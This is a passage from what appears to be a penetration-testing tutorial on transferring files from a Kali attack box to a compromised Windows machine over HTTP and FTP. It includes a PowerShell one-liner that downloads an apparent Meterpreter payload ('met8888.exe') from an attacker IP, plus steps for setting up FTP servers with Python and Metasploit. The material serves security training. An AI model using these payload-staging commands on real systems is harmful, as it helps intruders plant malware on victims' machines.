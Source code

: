 ### Downloading the files
If you have desktop access, simply browse to `http://YOUR-KALI-IP/shell8888.exe` and use the browser to download the file:

![IE Download](/images/2016/06/ie_download_file.png)

If you only have command line access (e.g. through a shell), downloading via HTTP is a little trickier as there's no built-in Windows equivalent to `curl` or `wget`. The best option is to use PowerShell's WebClient object:

```powershell
(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')
```

You can call this from a normal Windows command prompt as well:

![PowerShell Download](/images/2016/06/powershell_download.png)

There's a few other methods outlined [here](http://stackoverflow.com/questions/28143160/how-can-i-download-a-file-with-batch-file-without-using-any-external-tools), but I don't think any of them are as straightforward as the PowerShell snippet above.

## FTP
Another option to transfer files is FTP. Windows has a built in FTP client at `C:\Windows\System32\ftp.exe` so this option should almost always work.

### Starting the Server
You can [definitely](https://hackerkitty.wordpress.com/2014/10/24/install-ftp-server-on-kali-linux/) [install](http://www.gosecure.it/blog/art/93/note/install-ftp-server-on-kali-linux/) a full-featured FTP server like `vsftpd` in Kali, but I find that's often overkill. I just want a simple, temporary FTP server that I can spin up and down to share files. The two best ways to do this are with Python or Metasploit.

**Python**. The `pytftpd` library, like the HTTP one above, lets you spin up a Python FTP server in one line. It doesn't come installed by default, but you can install it with apt:
```bash
apt-get install python-pyftpdlib
```
Now from the directory you want to serve, just run the Python module. With no arguments it runs on port `2121` and accepts anonymous authentication. To listen on the standard port:
![Python FTP Server](/images/2016/06/python_ftp.png)
One benefit of using FTP over HTTP is the ability to transfer files both way. If you want to grant the anonymous user write access, add the `-w` flag as well.

**Metasploit**. There is also an auxiliary FTP server built in to Metasploit as well that is easy to deploy and configure. It's located at `auxiliary/server/ftp`. Set the `FTPROOT` to the directory you want to share and run `exploit`:

![Metasploit FTP Server](/images/2016/06/metasploit_ftp.png)

The server will run in the background. Kill it with `jobs -k <id>`
### Downloading the files
As mentioned earlier, Windows has an FTP client built in to the PATH. You can open an FTP connection and download the files directly from Kali on the command line. Authenticate with user `anonymous` and any password
